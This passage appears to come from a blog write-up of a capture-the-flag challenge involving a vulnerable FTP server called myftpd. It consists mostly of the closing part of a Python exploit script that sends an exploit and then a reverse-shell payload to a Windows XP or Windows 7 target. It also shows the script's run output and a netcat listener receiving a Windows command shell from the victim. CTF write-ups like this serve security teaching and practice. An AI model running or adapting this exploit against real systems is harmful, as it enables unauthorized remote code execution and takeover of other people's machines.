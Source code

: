 ``` python
]

if len(sys.argv) != 5:
  print "Usage: {0} <target> <host> <port> <payload>".format(sys.argv[0])
  print "   Targets:"
  for i in range(0, len(targets)):
    print "     {0}: {1}".format(i, targets[i]['Name'])
  print "Eg. {0} 0 127.0.0.1 21 revshell.bin".format(sys.argv[0])
  sys.exit(1)

target = targets[int(sys.argv[1])]
host = sys.argv[2]
port = int(sys.argv[3])
payload_file = sys.argv[4]

print "[*] Attacking {0} at {1}:{2} ...".format(target['Name'], host, port)
command = target['Func'](target)

# send the initial exploit
pwn(command, port)
# wait a sec for the port to be bound
time.sleep(1)
# Send the payload on the bind port
pwn(read_file(payload_file), port + 1, False)
```

Execution looks like this:

``` txt
$ ./myftpd.py                                 
Usage: ./myftpd.py <target> <host> <port> <payload>
   Targets:
     0: Windows XP SP3
     1: Windows 7
Eg. ./myftpd.py 0 127.0.0.1 21 revshell.bin
$ ./myftpd.py 1 10.1.10.32 21 revshell4444.bin
[*] Attacking Windows 7 at 10.1.10.32:21 ...
[*] Sending 458 bytes to 10.1.10.32:21...
[*] Sending 341 bytes to 10.1.10.32:22...
```

And the listener results in this:

``` txt
$ nc -lvp 4444
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.10.32.
Ncat: Connection from 10.1.10.32:50572.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\OJ\Desktop>systeminfo
systeminfo

Host Name:                 WIN-S45GUQ5KGVK
OS Name:                   Microsoft Windows 7 Ultimate 
OS Version:                6.1.7601 Service Pack 1 Build 7601
... snip ...
```


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization